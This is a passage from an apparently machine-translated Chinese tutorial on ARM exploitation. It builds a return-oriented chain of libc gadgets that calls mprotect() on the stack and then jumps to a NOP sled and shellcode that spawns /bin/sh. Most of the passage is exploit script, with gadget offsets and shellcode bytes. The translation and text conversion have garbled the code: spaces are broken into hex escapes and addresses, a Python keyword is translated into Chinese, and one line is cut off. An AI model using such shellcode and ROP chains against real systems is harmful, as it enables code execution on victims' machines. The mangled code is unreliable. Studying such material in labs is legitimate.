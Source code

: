 > exp+= " BBBB " # junk
> exp+= " A " * 24
> exp+= nops
> exp+= shellcode
> exp+= " AAAA "*

*让我们使用 gdb 运行它，并检查堆栈以找到合适的位置。*

*![](img/5111d4ccce83e8a89dcefb774b7a84e6.png)*

*地点 **0xbefff1f4** 似乎是一个合适的地方，因为它包含了我们的 nop 幻灯片。让我们把这作为我们利用的开始。所以我们可以在 mprotect()调用后将这个地址作为 pc 的下一个地址。这将把执行重定向到" **0xbefff1f4** "并执行外壳代码。让我最后一次修改我的漏洞。*

> *#!/usr/bin/python*
> 
> *shellcode = " \ x01 \ x30 \ x8f \ xe2 \ x13 \ xff \ x2f \ xe1 \ x02 \ xa0 \ x49 \ x40 \ x52 \ x40 \ xc2 \ x71 \ x0b \ x27 \ x01 \ xdf \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x78 "
> nops = " \ xe1 \ xa0 \ X10 \ x01 " * 10*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，0x b 6 f 41 e 90)# mprotect()address
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk